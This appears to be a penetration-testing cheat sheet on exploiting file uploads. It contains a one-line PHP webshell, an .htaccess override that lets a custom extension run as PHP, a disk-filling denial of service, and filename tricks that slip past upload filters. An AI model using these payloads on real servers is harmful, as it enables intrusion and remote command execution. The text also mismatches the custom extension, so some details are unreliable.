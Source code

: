 ## Techniques for Uploading a Webshell

### Basic Webshell Upload (No Countermeasures)

1. Upload a legitimate image to see where the webserver saves the file.
2. Upload a PHP webshell and access the file with a GET request.
3. Use a parameter query with your command to be executed by the OS.

#### Example of a Basic Webshell

```php
<?php system($_GET['cmd']); ?>
```
This script takes a GET parameter and executes it using the system command.
#### Example of a Query

```bash
curl -X GET https://<target_url>/files/avatars/basic-web-shell.php?cmd=pwd
```

### Using .htaccess

**.htaccess** is a configuration file for a directory. You can overwrite it to bypass security measures like file extension checking.

#### Lab Example
- `.php` was blocked, so the webserver did not allow PHP file uploads.
- Created a `.htaccess` file, uploaded it, and allowed the execution of PHP files using the extension ".213dz" with the mod_php module:

```plaintext
# Enable PHP file execution for mod_php
AddHandler application/x-httpd-php .213hz

# Enable PHP file execution for PHP-FPM
<FilesMatch \.php$>
    SetHandler "proxy:unix:/path/to/php-fpm.sock|fcgi://localhost/"
</FilesMatch>

<FilesMatch "\.php$">
    Require all granted
</FilesMatch>
```

**Note:** Change the HTTP content-type in the body of the request to "Content-Type: plain/text". Now you can upload your PHP file with the extension ".213hz".

### Denial of Service (DOS)

1. Check if there is a size limit on the uploaded files.
2. If not, try to upload the largest file possible.
3. The goal is to fill up the webserver's disk space, causing it to crash.

### Directory Traversal

- Sometimes you can use this technique to upload a file to another directory where PHP execution is allowed.
- Use URL path encoding in Burp Repeater to try to save a file in a subdirectory of the intended directory.

### Obfuscation Techniques

Sometimes, the PHP code that checks the legitimacy of your file is not coded correctly. Depending on the code, these obfuscation techniques could work:

- **Multiple Extensions**: Depending on the algorithm used to parse the filename, the following file may be interpreted as either a PHP file or a JPG image: `exploit.php.jpg`.
- **Trailing Characters**: Some components will strip or ignore trailing whitespaces, dots, and similar characters: `exploit.php.`.
- **URL Encoding**: Use URL encoding (or double URL encoding) for `"."`, `"../"`, or `".."`. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can allow you to upload malicious files that would otherwise be blocked: `exploit%2Ephp`.
- **Semicolons or Null Byte Characters**: Add semicolons or URL-encoded null byte characters before the file extension. If validation is written in a high-level language like PHP or Java, but the server processes the file using lower-level functions in C/C++, this can cause discrepancies in what is treated as the end of the filename: `exploit.php;.jpg` or `exploit.php%00.jpg`.
- **Multibyte Unicode Characters**: Use multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like `xC0 x2E`, `xC4 xAE`, or `xC0 xAE` may be translated to `x2E` if the filename is parsed as a UTF-8 string but then converted to ASCII characters before being used in a path.